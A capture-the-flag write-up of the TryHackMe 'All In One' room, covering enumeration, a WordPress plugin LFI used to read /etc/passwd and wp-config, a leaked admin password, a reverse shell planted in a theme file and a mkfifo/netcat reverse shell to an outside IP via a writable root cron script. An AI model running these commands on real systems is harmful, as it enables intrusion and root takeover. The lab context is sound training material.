 # All In One (THM)

- https://tryhackme.com/room/allinonemj
- March 13, 2023
- easy

---

## Enumeration

### Nmap

```
PORT   STATE SERVICE REASON     VERSION
21/tcp open  ftp     syn-ack    vsftpd 3.0.3
22/tcp open  ssh     syn-ack    OpenSSH 7.6p1 Ubuntu 4ubuntu0.3    
80/tcp open  http    syn-ack    Apache httpd 2.4.29 ((Ubuntu))

```

### FTP

- anonymous login allowed
- but nothing found in FTP

### HTTP

- Apache default page
- directory brute forcing with ffuf

```
wordpress
hackathons
```
#### hackathons
```html
<html>
<body>
<h1>Damn how much I hate the smell of <i>Vinegar </i> :/ !!!  </h1>
<!-- Dvc W@iyur@123 -->
<!-- KeepGoing -->
</body>
</html>
```
- Vinegar cipher???

![](screenshots/2023-03-13-22-06-03.png)

#### wordpress

- CMS -> wordpress
- run nuclei for wordpress

```sh
nuclei -u http://$IP/wordpress -tags wordpress
```
- username -> elyana
- vulnerable to lfi
```
[CVE-2016-10956] [http] [high] http://10.10.179.242/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
![](screenshots/2023-03-13-21-42-38.png)


- from vinegar decoding, found 1 word which is a potential password
- now know user names from LFI
- there is ssh, ftp ports open and try to enter 
- not successful
- with lfi, try to achieve php files
- check which methods should I use to read php files

![](screenshots/2023-03-13-22-13-48.png)

- with base64 encode filter , success

![](screenshots/2023-03-13-22-14-21.png)

- try to get wp-config file
- I guess I need to back directory for 5 places to reach wordpress folder 

![](screenshots/2023-03-13-22-15-30.png)

- then copy the contents and

```sh
echo 'contents from copy the base64 version' | base64 -d > config.php
```
- check this file
- found credentials 
- it is just credentials found above `elyana:H@ckme@123`
- I forgot to enter wordpress admin panel :D
- try to get admin panel with this credentials and get login.

![](screenshots/2023-03-13-22-21-52.png)

- add reverse shell to 404.php file

```
http://10.10.179.242/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty
```
- like this

![](screenshots/2023-03-13-22-24-46.png)

## User Access

- listen with nc in local machine
- then go to the wordpress main site and add arbitary route to trigger the `404.php` file
- get `www-data` shell
- make stable shell with python

```sh
bash-4.4$ cat /etc/crontab
...
*  *    * * *   root    /var/backups/script.sh

bash-4.4$ ls -la /var/backups/script.sh
-rwxrwxrwx 1 root root 73 Oct  7  2020 /var/backups/script.sh
```
- cron job is running by root user and www-data has also write access to this file

## Root Access

- write in `/var/backups/script.sh` file like this
```sh
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4243 >/tmp/f
```
- don't forget `4242` is listening and change other port

![](screenshots/2023-03-13-22-33-58.png)

```sh
# cat /home/elyana/user.txt
# cat /root/root.txt
```
- flags are base64 string and decode it

---